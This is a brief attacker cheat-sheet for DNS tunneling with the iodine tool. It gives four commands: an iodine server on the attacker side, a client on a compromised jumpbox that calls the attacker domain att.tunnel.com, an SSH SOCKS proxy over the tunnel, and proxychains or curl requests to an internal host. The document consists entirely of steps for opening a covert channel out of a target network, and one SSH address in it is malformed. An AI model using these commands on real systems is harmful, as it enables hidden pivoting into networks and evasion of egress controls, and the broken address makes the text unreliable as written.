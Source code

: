 # DNS Tunneling (TCP over DNS)

## Tool: Iodine(d)

#### 1) Attacker: sudo iodined -f -c -P PASSWORD 10.1.1.1/24

#### 2) Jumpbox: sudo iodine -P PASSWORD att.tunnel.com

#### 3) Attacker: ssh USER@101.1.2 -4 -f -N -D 1080

#### 4) Attacker: proxychains curl http://192.168.0.100/test.php OR curl --socks5 127.0.0.1:1080 http://192.168.0.100/test.php
